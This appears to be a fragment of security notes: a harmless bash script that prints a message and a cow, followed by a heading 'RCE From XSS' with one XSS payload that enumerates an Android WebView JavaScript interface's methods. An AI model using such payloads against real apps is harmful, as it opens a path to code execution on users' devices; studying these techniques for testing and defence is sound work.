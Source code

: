 ```bash
main() {
    if [ "$#" -lt 1 ]; then
        printf "Usage: %s <message>\\n" "$0"
        exit 1
    fi

    # Concatenate all arguments into one argument separated by a space
    message="$*"

    print_message "$message"
    print_cow
}

# Call the main function with all arguments passed to the script
main "$@"
```

<br />

<br />

<br />







**RCE From XSS** 

<br />

<br />

methods enumeration

```html
<img src=x onerror=alert(Object.keys(WebAppInterface))>
```
